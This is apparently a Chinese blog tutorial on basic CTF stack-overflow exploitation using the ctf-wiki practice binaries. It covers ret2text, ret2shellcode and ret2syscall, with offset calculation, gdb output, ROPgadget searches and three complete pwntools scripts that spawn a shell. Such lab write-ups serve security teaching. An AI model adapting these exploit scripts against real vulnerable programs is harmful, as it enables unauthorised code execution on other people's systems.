本文最后编辑于 前，其中的内容可能需要更新。
原理
ret2text 即控制程序执行程序本身已有的的代码(.text)。其实，这种攻击方法是一种笼统的描述。我们控制执行程序已有的代码的时候也可以控制程序执行好几段不相邻的程序已有的代码(也就是 gadgets)，这就是我们所要说的ROP。
file和checksec，看看文件类型和开了什么保护。
开了NX保护，栈不可执行保护=。=

查看到main里有个gets函数，可能存在栈溢出漏洞

找到/bin/sh，因为是rodata是只读的，要找到在程序中的位置，往里跟进去，找到了在text段上的地址

一种通过下断点的方式来计算偏移。
这边没截图，下完断点后直接run就可以了
1
2
3
| .text:080486A7 lea eax, [esp+80h+s]
.text:080486AB mov [esp], eax ; s
.text:080486AE call _gets
|

可以看到esp的值是0xffffd000，ebp的值是0xffffd088。
根据s相对于esp的索引是[esp+80h+s]。计算出s是0xffffcf80。
在计算s相对于ebp的偏移是0x6c。在加上返回地址。最后的结果就是0x6c+4=十进制下的112。这种方法也是wiki里的计算方法。
1
2
3
4
5
6
7
8
9
10
11
12
| [----------------------------------registers-----------------------------------]
EAX: 0xffffd01c --> 0x8048329 ("__libc_start_main")
EBX: 0x0
ECX: 0xffffffff
EDX: 0xf7fb8870 --> 0x0
ESI: 0xf7fb7000 --> 0x1afdb0
EDI: 0xf7fb7000 --> 0x1afdb0
EBP: 0xffffd088 --> 0x0
ESP: 0xffffd000 --> 0xffffd01c --> 0x8048329 ("__libc_start_main")
EIP: 0x80486ae (<main+102>: call 0x8048460 <gets@plt>)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
|

run起来，用脏数据填充掉。这边是用cyclic来计算偏移
1
2
| cyclic 150
cyclic -l 0x62616164
|

直接上脚本跑，就成功getshell
1
2
3
4
5
6
| from pwn import *
p=process('./ret2text')
bin_sh=0x0804863A //shell的地址
p.sendlineafter("anything?","a"*112+p32(bin_sh)) //当接受到anything?时，发送数据
// 'A' * (0x6c+4) wiki里的写法
p.interactive()
|

原理
1
2
3
| ret2shellcode，即控制程序执行 shellcode代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。一般来说，shellcode 需要我们自己填充。这其实是另外一种典型的利用方法，即此时我们需要自己去填充一些可执行的代码。
在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。
|
checksec检查一下保护和看一下文件的类型

gets基本的栈溢出，还将字符串复制到了buf2。
查看一下buf2字段在bss段

下断点在main，运行起来，用vmmap来查看buf2所在的段是否可执行
查看到地址在图中框起来的地方，且有可执行权限

1
2
3
4
5
6
7
|
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh()) //用pwn中自带的shellcode
buf2_addr = 0x804a080 //buf段的地址
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr)) //shellcode.ljust会填充剩下的脏数据
sh.interactive()
|

原理
1
| ret2syscall，即控制程序执行系统调用，获取 shell。
|
file和checksec文件
ida查看伪代码

cyclic寻找偏移

在这个程序里，没有我们可以直接利用的代码段，就要通过程序中的gadgets来获得shell
获得shell需要一个系统调用的过程
1
2
3
4
5
6
7
8
| 参见yichen师傅
关于系统调用的知识：
Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数
应用程序调用系统调用的过程是：
1、把系统调用的编号存入 EAX
2、把函数参数存入其它通用寄存器
3、触发 0x80 号中断（int 0x80）
|
在这里我们需要做的就是调用execve(“/bin/sh”,NULL,NULL)这个程序
就让eax=0xb
ebx=/bin/sh的地址
ecx=0
edx=0
最后就是让栈顶的值为0xb，然后直接pop eax就获得了shell
通过ROPgadget来寻找gadgets
1
2
3
4
| ROPgadget --binary rop --only 'pop|ret' | grep 'eax'
ROPgadget --binary rop --only 'pop|ret' | grep 'ebx'
ROPgadget --binary rop --string '/bin/sh'
ROPgadget --binary rop --only 'int'
|

原理参见图：
1
2
3
4
5
| 系统调用号，即 eax 应该为 0xb
第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
第二个参数，即 ecx 应该为 0
第三个参数，即 edx 应该为 0
最后的int就是所执行的0x80，触发了0x80中断就执行了命令
|

1
2
3
4
5
6
7
8
9
10
11
12
| from pwn import *
sh=process('./rop')
pop_eax_ret=0x080bb196
pop_edx_ecx_ebx_ret=0x0806eb90
int_x80=0x08049421
binsh=0x080be408
payload=flat(
['a'*112,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,binsh,int_x80])
//flat模块能将pattern字符串和地址结合并且转为字节模式。相当于直接给他加上了p32
sh.sendline(payload)
sh.interactive()
|

其他参考：
1.ctf-wiki
https://ciphersaw.me/ctf-wiki/pwn/linux/stackoverflow/basic_rop/#ret2text
2.yichen师傅
https://www.yuque.com/hxfqg9/bin/ug9gx5#h55IL